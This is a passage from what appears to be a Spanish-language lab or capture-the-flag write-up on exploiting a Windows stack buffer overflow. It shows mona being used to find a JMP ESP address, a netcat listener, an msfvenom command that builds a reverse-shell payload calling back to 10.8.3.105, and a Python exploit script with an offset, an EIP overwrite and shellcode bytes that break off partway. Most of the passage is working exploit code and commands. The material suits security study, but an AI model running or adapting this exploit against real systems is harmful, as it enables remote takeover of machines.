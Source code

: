 
>Ahora vamos a encontrar el OpCode correspondiente a la acción JMP ESP para poder hacer que el EIP apunte a la pila y esta sea la que ejecute nuestro shellcode:

```python
!mona jmp -r esp
```

![Pasted image 20240821235435](https://github.com/user-attachments/assets/bfdf506a-cdf1-45e1-8ace-6f416506e115)

>Una vez obtenido el OpCode deberemos pasarlo a little endian, para ello deberemos de dos en dos dígitos desde el final hacia atrás ir iterando por los valores separándolos por `\x` como se muestra a continuación:

```python
0x311712f3 ----> \xf3\x12\x17\x31
```

>Una vez montado el script, solo deberemos agregarle permisos de ejecución, escuchar mediante netcat y ejecutar el script y obtendremos una reverse shell de la máquina en la que estamos realizando el proceso de ingeniería inversa:

```bash
nc -nlvp 443
chmod +x exploit.py
python3 exploit.py
```
![Pasted image 20240830155713](https://github.com/user-attachments/assets/5b9c9898-ec5f-459a-920b-3a1762baeb5f)


>Ahora que hemos visto que podemos ejecutar código debido a la vulnerabilidad en el manejo de la memoria de la aplicación, deberemos modificarlo para apuntar a la máquina víctima. Para ello, vamos a emplear un nuevo shellcode para pasar por la VPN:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.8.3.105 LPORT=443 -f py -v shellcode -b "\x00\x0a\x0d"
```

>Y realizaremos un cambio al script anterior, cambiando el shellcode y la IP a la que apunta el **s.connect**:

```python
#!/usr/bin/python3

import socket

offset = 524
before_eip = b"A" * offset

eip = b"\xf3\x12\x17\x31" # <--- 0x311712f3 - JMP ESP

shellcode =  b""
shellcode += b"\xda\xdb\xba\x97\xa3\x09\x01\xd9\x74\x24\xf4"
shellcode += b"\x5e\x31\xc9\xb1\x52\x31\x56\x17\x03\x56\x17"
shellcode += b"\x83\x79\x5f\xeb\xf4\x79\x48\x6e\xf6\x81\x89"
shellcode += b"\x0f\x7e\x64\xb8\x0f\xe4\xed\xeb\xbf\x6e\xa3"
shellcode += b"\x07\x4b\x22\x57\x93\x39\xeb\x58\x14\xf7\xcd"
shellcode += b"\x57\xa5\xa4\x2e\xf6\x25\xb7\x62\xd8\x14\x78"
shellcode += b"\x77\x19\x50\x65\x7a\x4b\x09\xe1\x29\x7b\x3e"
shellcode += b"\xbf\xf1\xf0\x0c\x51\x72\xe5\xc5\x50\x53\xb8"
shellcode += b"\x5e\x0b\x73\x3b\xb2\x27\x3a\x23\xd7\x02\xf4"
shellcode += b"\xd8\x23\xf8\x07\x08\x7a\x01\xab\x75\xb2\xf0"
shellcode += b"\xb5\xb2\x75\xeb\xc3\xca\x85\x96\xd3\x09\xf7"
shellcode += b"\x4c\x51\x89\x5f\x06\xc1\x75\x61\xcb\x94\xfe"
shellcode += b"\x6d\xa0\xd3\x58\x72\x37\x37\xd3\x8e\xbc\xb6"
shellcode += b"\x33\x07\x86\x9c\x97\x43\x5c\xbc\x8e\x29\x33"
shellcode += b"\xc1\xd0\x91\xec\x67\x9b\x3c\xf8\x15\xc6\x28"
shellcode += b"\xcd\x17\xf8\xa8\x59\x2f\x8b\x9a\xc6\x9b\x03"
shellcode += b"\x97\x8f\x05\xd4\xd8\xa5\xf2\x4a\x27\x46\x03"
```